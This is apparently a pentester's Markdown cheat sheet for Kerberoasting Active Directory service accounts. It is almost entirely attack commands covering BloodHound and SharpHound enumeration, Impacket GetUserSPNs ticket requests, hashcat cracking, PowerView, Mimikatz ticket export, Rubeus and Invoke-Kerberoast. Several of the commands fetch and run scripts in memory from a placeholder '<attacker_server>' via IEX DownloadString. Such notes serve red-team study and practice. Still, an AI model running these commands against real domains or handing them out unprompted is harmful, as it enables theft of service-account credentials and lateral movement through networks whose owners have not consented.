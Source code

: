 # <h1 align="center" id="heading">Kerberoasting</h1>
The easiest way to enumerate Kerberoastable users is through BloodHound. I can collect BloodHound graphing information for the target domain in a few ways. The easiest and most accurate way is through SharpHound collection. I prefer to run the collection in memory with the following command:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All
```
If I have valid domain credentials, I can use the Python collector BloodHound.py. This can be run from any platform that has Python support so I do not need to rely solely on Windows. This comes in handy when I find myself on a Domain-joined linux system. I can use the following command to execute the BloodHound graphing information collection:
```console
bloodhound-python -u <username> -p '<password>' -ns <target ip> -d <domain name> -c all
```
This may or may not work depending on the target system! Once I identify Kerberoastable users, I can perform the attack with the following command:
```console
~/tools/impacket/examples/GetUserSPNs.py -dc-ip <domain controller> <domain>/<user>:<password> -request
```
After obtaining a hash, I can attempt to crack the password with the following command (run from Windows host):
```console
hashcat.exe -m 13100 -a 0 hashes.txt rockyou.txt -O
```
Depending on whether or not the user has a weak password, I may or may not be able to crack the ticket. If not, this is most likely not the way forward for lateral movement! There are also alternate methods of Kerberoasting from within a Windows environment if the tools are available. I can start off by loading PowerView into memory with the following command:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1")
```
Next, I can run the following command to obtain the SPN (if available):
```powershell
Get-NetUser -SPN | select serviceprincipalname
```
After I obtain a valid SPN, I can run the following commands to load the TGS into memory:
```powershell
Add-Type -AssemblyName System.IdentityModel 
```
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/<svcacct.domain.com>"
```
Once the ticket is loaded into memory, I can use the following command to verify that it is available for use:
```powershell
klist
```
If the ticket is available, I can use the following commands to execute Mimikatz to export the ticket to disk (current working directory):
```powershell
.\mimikatz64.exe
```
```powershell
kerberos::list /export
```
I can accomplish this same task with a combination of PowerView, Rubeus, and Invoke-Kerberoast. First I will need to use the following command to load PowerView into memory:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1")
```
Next, I will use the following command to request a SPN for a service account:
```powershell
Get-NetUser -SPN "MSSQLSvc/<svcacct.domain.com>"
```
I can now run the following command to execute Rubeus:
```powershell
.\rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Now that I have a valid TGS, I can use the following command to load Invoke-Kerberoast into memory of the target system:
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("http://<attacker_server>/Invoke-Kerberoast.ps1")
```
Once Invoke-Kerberoast has been loaded into memory, I can use the following command to perform the attack:
```powershell
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
